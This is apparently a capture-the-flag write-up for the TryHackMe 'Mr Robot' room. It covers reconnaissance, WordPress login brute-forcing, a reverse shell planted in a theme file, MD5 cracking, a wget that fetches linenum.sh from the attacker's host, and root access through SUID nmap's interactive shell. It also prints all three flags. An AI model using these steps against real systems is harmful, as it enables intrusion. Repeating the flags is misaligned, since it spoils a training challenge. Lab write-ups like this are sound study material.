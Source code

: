 # Mr Robot CTF Try Hack Me (10.10.171.29)


> scan with `nmap -sC -sV 10.10.171.29 > nmap_log`
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 09:49 WIB
Nmap scan report for 10.10.171.29
Host is up (0.37s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 356.67 seconds
```

> check file robots.txt `http://10.10.171.29/robots.txt`
```js
User-agent: *
fsocity.dic
key-1-of-3.txt
```
> open `http://10.10.171.29/key-1-of-3.txt` got the first key `073403c8a58a1f80d943455fb30724b9`
> download fsocity.dic `http://10.10.171.29/fsocity.dic`

> using gobuster and get wordpress login `wp-login`
> create Brute Login to `wp-login.php` using python and dictionary file
> after got username and password login to `wp-login`
> edit file on dashboard `archive.php` to reverse shell and access `http://10.10.171.29/wp-content/themes/twentyfifteen/archive.php`
> after got the shell look at `/home/robot`
```bash
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

> crack the `c3fcd3d76192e4007dfb496cca67e13b` result is `abcdefghijklmnopqrstuvwxyz`
> using that password go to robot using su

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```

> open our connection using `python -m http.server 81`  in my case i open port 81 and my ip `10.4.37.160:81` and cd to `/dev/shm`

```bash
robot@linux:/dev/shm$ wget http://10.4.37.160:81/linenum.sh
wget http://10.4.37.160:81/linenum.sh
--2023-10-12 04:32:43--  http://10.4.37.160:81/linenum.sh
Connecting to 10.4.37.160:81... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [application/x-sh]
Saving to: ‘linenum.sh’

100%[======================================>] 46,631      54.4KB/s   in 0.8s   

2023-10-12 04:32:44 (54.4 KB/s) - ‘linenum.sh’ saved [46631/46631]

robot@linux:/dev/shm$ chmod +x linenum.sh
chmod +x linenum.sh

robot@linux:/dev/shm$ ./linenum.sh
./linenum.sh

.... a lot of bunch output from linenum 
....
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
....
.... a lot of bunch output from linenum 
```

> use that interesting SUID files to check on GtfoBin and use that to privesc

# Priviledge Escalation
```sh
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
firstboot_done	key-3-of-3.txt
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat firstboot_done
cat firstboot_done
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

> and ... yay!  we solved that challl....